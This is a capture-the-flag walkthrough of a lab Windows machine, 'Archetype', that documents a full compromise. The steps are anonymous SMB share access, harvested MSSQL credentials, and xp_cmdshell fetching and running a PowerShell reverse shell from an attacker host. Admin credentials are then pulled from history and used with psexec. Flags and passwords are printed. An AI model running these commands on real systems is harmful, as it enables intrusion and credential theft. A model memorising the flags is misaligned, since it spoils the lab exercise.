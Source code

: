 # Archetype 

> Easy | Windows 

<br>

### Process:
1) run autorecon
- `sudo python3 autorecon 10.10.10.27`
- found:
  - 135,139,445 (NetBIOS)
  - 1433 (mssql)

<br>

2a) enumerate 135,139,445 (NetBIOS):
- found share "backups" that was read only
  - connect and inspect with no password: `smbclient //10.10.10.27/backups -N`
  - found "prod.dtsConfig" -- contains password information for sql:
    - ARCHETYPE\sql_svc:M3g4c0rp123
- found share "IPC$" that was read only

<br>

3) try to login to mssql service:
- `python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth` -- sucess
  
4) get a shell:
- reconfigure xp_cmdshell to use powershell commmands:
  - `EXEC sp_configure 'Show Advanced Options', 1;` -> `reconfigure;` -> `sp_configure;`
- get powershell reverse shell on system:
  - create powershell reverse shell on attack (called "shell.ps1"):
  ```ps1
  $client = New-Object System.Net.Sockets.TCPClient("10.10.15.73",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  ```
  - get onto system using Python web server:
    - `sudo python3 -m http.server 80`
  - create netcat listener to catch reverse shell:
    - `sudo rlwrap nc -nvlp 443`
- download and execute reverse shell through "xp_cmdshell"
  - `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.73/shell.ps1\");"`


<br>

5) get flags:
- get the user flag:
  - shell recevies is as "sql_svc" user so can get the user flag
  - `more \Users\sql_svc\Desktop\user.txt`
  - user flag = **3e7b102e78218e935bf3f4951fec21a3**
- get admin flag:
  - need to escalate prvileges:
    - check frequently accessed files or executed commands
    - `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
    - in PowerShell history file found "backups" drive has been mapped using the local admin credentials "admisistrator:MEGACORP_4dm1n!!"
  - use Impacket's "psexec.py" to gain a privileged shell
    - `psexec.py administrator@10.10.10.27` -> [MEGACORP_4adm1n!!]
  - read admin flag:
    - `more \users\administrator\desktop\root.txt`
    - system flag = **b91ccec3305e98240082d4474b848528**
